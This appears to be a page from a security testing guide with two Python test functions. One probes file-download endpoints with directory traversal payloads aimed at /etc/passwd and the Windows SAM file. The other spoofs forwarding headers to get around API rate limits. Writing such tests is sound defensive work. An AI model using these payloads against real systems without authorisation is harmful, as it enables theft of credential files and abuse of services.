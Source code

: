 #### **Directory Traversal Test**
```python
def test_directory_traversal():
    """Test directory traversal attacks"""
    traversal_payloads = [
        "../../../etc/passwd",
        "..\\..\\..\\windows\\system32\\config\\sam",
        "....//....//....//etc/passwd"
    ]
    
    file_endpoints = [
        "/api/file/download",
        "/api/backup/download"
    ]
    
    vulnerable_endpoints = []
    
    for endpoint in file_endpoints:
        for payload in traversal_payloads:
            response = session.get(
                f"{base_url}{endpoint}?file={payload}"
            )
            
            if response.status_code == 200:
                # Check for sensitive file content
                if "root:" in response.text or "bin:" in response.text:
                    vulnerable_endpoints.append(endpoint)
                    break
    
    return vulnerable_endpoints
```

### **API Abuse Examples**

#### **Rate Limit Bypass Test**
```python
def test_rate_limit_bypass():
    """Test API rate limit bypass techniques"""
    bypass_techniques = [
        {"X-Forwarded-For": "192.168.1.1"},
        {"X-Real-IP": "192.168.1.1"},
        {"X-Client-IP": "192.168.1.1"}
    ]
    
    vulnerable_techniques = []
    
    for technique in bypass_techniques:
        # Make multiple requests with bypass technique
        for i in range(20):
            response = session.get(
                f"{base_url}/api/users",
                headers=technique
            )
            
            if response.status_code == 200 and i > 10:
                vulnerable_techniques.append(technique)
                break
    
    return vulnerable_techniques
```
